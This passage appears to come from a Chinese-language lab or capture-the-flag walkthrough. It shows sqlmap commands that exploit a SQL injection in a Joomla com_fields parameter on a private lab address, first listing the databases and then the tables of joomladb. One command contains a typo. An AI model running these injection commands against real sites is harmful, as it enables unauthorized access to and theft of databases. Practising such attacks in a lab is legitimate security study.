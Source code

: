 ```shell
sqlmsqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

使用上面语句，成功获取信息

![](./pic-3/10.jpg)

再次对指定的数据库爆出表

```shell
 sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables --batch
```

![](./pic-3/11.jpg)
